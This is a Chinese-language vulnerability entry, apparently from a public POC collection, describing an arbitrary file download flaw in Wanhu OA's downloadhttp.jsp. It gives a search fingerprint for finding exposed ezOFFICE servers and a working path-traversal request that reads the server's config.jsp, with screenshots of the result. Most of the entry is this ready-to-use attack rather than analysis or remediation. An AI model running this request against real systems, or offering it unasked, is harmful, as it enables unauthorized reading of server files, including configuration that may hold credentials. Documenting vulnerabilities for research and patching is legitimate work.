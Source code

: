 # 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174643131.png)

验证POC

```javascript
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646039844800-07a00418-a36e-466c-a6ad-da6d8a9621ea.png)